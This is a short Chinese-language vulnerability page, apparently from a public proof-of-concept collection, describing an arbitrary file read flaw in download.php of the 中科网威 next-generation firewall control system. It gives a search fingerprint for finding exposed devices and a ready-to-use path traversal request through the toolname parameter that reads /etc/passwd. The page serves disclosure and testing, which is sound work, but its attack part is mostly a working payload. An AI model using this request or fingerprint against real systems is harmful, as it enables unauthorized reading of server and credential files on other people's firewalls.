

# 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

## 漏洞描述

中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

<a-checkbox checked>中科网威 下一代防火墙控制系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="Get_Verify_Info(hex_md5(user_string)."</a-checkbox></br>

## 漏洞复现

登录页面如下


漏洞存在于 download.php


任意点击后抓包，更改 `toolname` 参数

```plain
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```





## 

